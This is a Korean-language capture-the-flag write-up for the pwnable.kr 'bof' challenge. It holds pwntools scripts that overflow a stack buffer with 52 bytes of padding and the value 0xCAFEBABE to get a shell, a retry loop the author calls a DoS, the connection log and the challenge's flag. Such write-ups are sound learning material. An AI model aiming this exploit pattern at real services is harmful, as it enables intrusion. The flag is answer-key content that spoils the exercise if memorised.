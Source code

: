 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-19-54-44.png)


# **Write-Up**!

ebp+arg_0(0x08)이 0xCAFEBABE면 쉘을 획득할 수 있다.

![](images/2022-01-03-21-00-07.png)

gets를 통해 버퍼의 시작 주소는 ebp+s(-0x2C)이다. 따라서 dummy를 채워야 하는 크기는 0x2C+SFP(ebp)+RET(ebp+4)=52byte이다. (32bit 파일이기 때문에)

다음과 같이 python 스크립트로 쉘을 획득할 수 있다.

```python
from pwn import *

r = remote("pwnable.kr", 9000)
payload = b"A"*52
payload += p32(0xCAFEBABE)

r.sendline(payload)
r.interactive()
하지만 sh: 1: Cannot fork와 같이 문제에 오류가 있어보인다. 따라서 flag는 획득하지 못했다.
```

하지만 DoS로 뚫었다.

```python
from pwn import *

for i in range(5):
    r = remote("pwnable.kr", 9000)
    payload = b"A"*52
    payload += p32(0xCAFEBABE)

    r.sendline(payload)
    r.sendline('cat flag')
    try: print(r.recvline())
    except: pass

[x] Opening connection to pwnable.kr on port 9000
[x] Opening connection to pwnable.kr on port 9000: Trying 128.61.240.205
[+] Opening connection to pwnable.kr on port 9000: Done
[x] Opening connection to pwnable.kr on port 9000
[x] Opening connection to pwnable.kr on port 9000: Trying 128.61.240.205
[+] Opening connection to pwnable.kr on port 9000: Done
b'sh: 1: Cannot fork\n'
[x] Opening connection to pwnable.kr on port 9000
[x] Opening connection to pwnable.kr on port 9000: Trying 128.61.240.205
[+] Opening connection to pwnable.kr on port 9000: Done
[x] Opening connection to pwnable.kr on port 9000
[x] Opening connection to pwnable.kr on port 9000: Trying 128.61.240.205
[+] Opening connection to pwnable.kr on port 9000: Done
b'daddy, I just pwned a buFFer :)\n'
[x] Opening connection to pwnable.kr on port 9000
[x] Opening connection to pwnable.kr on port 9000: Trying 128.61.240.205
[+] Opening connection to pwnable.kr on port 9000: Done
b'*** stack smashing detected ***: /home/bof/bof terminated\n'
[*] Closed connection to pwnable.kr port 9000
[*] Closed connection to pwnable.kr port 9000
[*] Closed connection to pwnable.kr port 9000
[*] Closed connection to pwnable.kr port 9000
[*] Closed connection to pwnable.kr port 9000
```


# **FLAG**

**daddy, I just pwned a buFFer :)**